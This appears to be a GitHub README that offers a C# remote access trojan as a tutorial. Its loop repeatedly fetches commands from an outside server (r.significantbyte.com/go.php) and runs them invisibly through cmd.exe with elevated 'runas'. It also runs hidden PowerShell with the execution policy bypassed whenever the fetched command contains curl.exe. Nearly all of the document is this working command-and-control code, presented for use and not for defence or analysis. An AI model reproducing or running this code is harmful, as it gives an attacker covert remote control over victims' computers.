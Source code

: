 # http-command-and-control Remote Access Tool (RAT) using c# >

<b>Let's understand it.</b><br>
<b>This will get the command from online web server.
</b><br>
  
                          new WebClient().DownloadString("https://r.significantbyte.com/go.php");<br>
<br><br><br>
<b>Run command in device.</b>
  
                            Process cmd = new Process();<br>
                            cmd.StartInfo.FileName = "cmd.exe";<br>
                            cmd.StartInfo.RedirectStandardInput = true;<br>
                            cmd.StartInfo.RedirectStandardOutput = true;<br>
                            cmd.StartInfo.CreateNoWindow = true;<br>
                            cmd.StartInfo.UseShellExecute = false;<br>
                            cmd.StartInfo.Verb = "runas";<br>
                            cmd.Start();<br>
                            cmd.StandardInput.WriteLine(json);<br>
                            <br><br><br>
  
<b>Lets wait for 1 second</b><br>
                          Thread.Sleep(1000);<br>
                            
<b>Now lets combine the whole idea. Get the command and run cmd in while loop</b>

  
      while (chk == 0)
            {
                try
                {
                    json = new WebClient().DownloadString("https://r.significantbyte.com/go.php");
                    if (json != oldjson)
                    {

                        if (json.Contains("curl.exe"))
                        {
                            System.Diagnostics.Process.Start("CMD.exe", "/C powershell -w h -ep bypass " + json);
                        }
                        else
                        {
                            Process cmd = new Process();
                            cmd.StartInfo.FileName = "cmd.exe";
                            cmd.StartInfo.RedirectStandardInput = true;
                            cmd.StartInfo.RedirectStandardOutput = true;
                            cmd.StartInfo.CreateNoWindow = true;
                            cmd.StartInfo.UseShellExecute = false;

                            cmd.StartInfo.Verb = "runas";
                            cmd.Start();

                            cmd.StandardInput.WriteLine(json);
                        }

                        Console.WriteLine("diff result json=" + json + "old=" + oldjson);
                    }
                    else
                    {
                        Console.WriteLine("same result json=" + json + "old=" + oldjson);
                    }


                    oldjson = json;
                }
                catch (Exception e)
                {
                    Console.WriteLine("Connection not stable.");
                }
                Thread.Sleep(1000);

            }
